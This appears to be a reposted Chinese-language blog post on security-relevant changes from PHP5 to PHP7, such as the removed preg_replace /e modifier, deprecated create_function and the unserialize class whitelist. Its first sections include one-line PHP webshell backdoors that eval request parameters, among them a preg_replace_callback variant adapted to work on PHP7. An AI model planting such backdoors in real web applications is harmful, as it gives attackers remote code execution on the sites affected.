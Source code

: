 ```yaml
---
layout: post
title: "[PHP] PHP7 和 PHP5 在安全上的區別"
date: 2019-03-18 00:00:02 +0800
categories: [security, php]
tags: [security, php]
---
```



## **PHP7 和 PHP5 在安全上的區別**

## **函數修改**
## **preg_replace()不再支持/e修飾符**
```php
<?php
preg_replace("/.*/e",$_GET["h"],".");
?>
```

利用`\e`修飾符執行程式碼的後門大家也用了不少了，具體看官方的這段[描述](http://php.net/manual/zh/reference.pcre.pattern.modifiers.php):

>如果設置了這個被棄用的修飾符， preg_replace() 在進行了對替換字符串的後向引用替換之後,
>將替換後的字符串作為php 程式碼評估執行(eval 函數方式)，並使用執行結果作為實際參與替換的字符串。
>單引號、雙引號、反斜線()和 NULL 字符在 後向引用替換時會被用反斜線轉義.

很不幸，在PHP7以上版本不在支持`\e`修飾符，同時官方給了我們一個新的函數`preg_replace_callback`：

這裡我們稍微改動一下就可以利用它當我們的後門：

![1](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/1.png)

```php
<?php
preg_replace_callback("/.*/",function ($a){@eval($a[0]);},$_GET["h"]);
?>
```

---
## **create_function()被廢棄**
```php
<?php
$func =create_function('',$_POST['cmd']);$func();
?>
```

少了一種可以利用當後門的函數，實際上它是通過執行`eval`實現的。可有可無。


---

## **mysql_*系列全員移除**

如果你要在PHP7上面用老版本的mysql_*系列函數需要你自己去額外裝了，官方不在自帶，現在官方推薦的是mysqli或者pdo_mysql。


---

## **unserialize()增加一個可選白名單參數**


```php
$data = unserialize($serializedObj1 , ["allowed_classes" => true]);
$data2 = unserialize($serializedObj2 , ["allowed_classes" => ["MyClass1", "MyClass2"]]);
```

如果反序列數據裡面的類名不在這個白名單內，就會報錯。

![2](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/2.png)

可以是類名也可以是布爾數據，如果是`FALSE`就會將所有的對像都轉換為`__PHP_Incomplete_Class`對象。 `TRUE`是無限制。也可以傳入類名實現白名單。

---

## **assert()默認不在可以執行程式碼**

---

## **語法修改**
foreach不再改變內部陣列指針


```php
<?php
$a = array('1','2','3');
foreach ($a as $k=>&$n){
    echo "";
}
print_r($a);
foreach ($a as $k=>$n){
    echo "";

}
print_r($a);
```

這樣的程式碼在php5中，是這樣的執行結果

![3](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/3.png)

因為陣列最後一個元素的 $value 引用在 foreach 循環之後仍會保留，在第二個循環的時候實際上是對之前的指針不斷的賦值。
<br>
php7中通過值遍歷時，操作的值為陣列的副本，不在對後續操作進行影響。


## **8進製字符容錯率降低**

在php5版本，如果一個八進製字符如果含有無效數字，該無效數字將被靜默刪節。

```php
<?php
echo octdec( '012999999999999' ) . "\n";
echo octdec( '012' ) . "\n";
if (octdec( '012999999999999' )==octdec( '012' )){
        echo ": )". "\n";
}
```

比如這樣的程式碼在php5中的執行結果如下：

![4](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/4.png)

但是在php7裡面會觸發一個解析錯誤。

>這個問題同樣在PHP7.0.0以後的版本又被改回去了，只影響這一個版本。

---

## **十六進製字符串不再被認為是數字**

```php
<?php
var_dump("0x123" == "291");
var_dump(is_numeric("0x123"));
var_dump("0xe" + "0x1");
var_dump(substr("foo", "0x1"));
?>
```


以上程式碼在PHP5運行結果如下：
![5](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/5.png)


PHP7運行結果如下：

![6](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/6.png)


## **移除了 ASP 和 script PHP 標籤**


![7](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/7.png)

現在只有`<?php ?>`這樣的標籤能在php7上運行了。


## **超大浮點數類型轉換截斷**
將浮點數轉換為整數的時候，如果浮點數值太大，導致無法以整數表達的情況下， 在PHP5的版本中，轉換會直接將整數截斷，並不會引發錯誤。在PHP7中，會報錯。


## **雜項**

>`exec()`, `system()` `passthru()`函數對 NULL 增加了保護.
>
>`list()`不再能解開字符串`string`變數
>
>`$HTTP_RAW_POST_DATA` 被移除
>
>`__autoload()` 方法被廢棄
>
>`parse_str()` 不加第二個參數會直接把字符串導入當前的符號表，如果加了就會轉換稱一個陣列。現在是第二個參數是強行選項了。
>
>統一不同平台下的整型長度
>
>`session_start()` 可以加入一個陣列覆蓋php.ini的配置


## **引用**
> [http://php.net/](http://php.net/)

## **文章來源:**
[https://www.freebuf.com/articles/web/197013.html](https://www.freebuf.com/articles/web/197013.html)
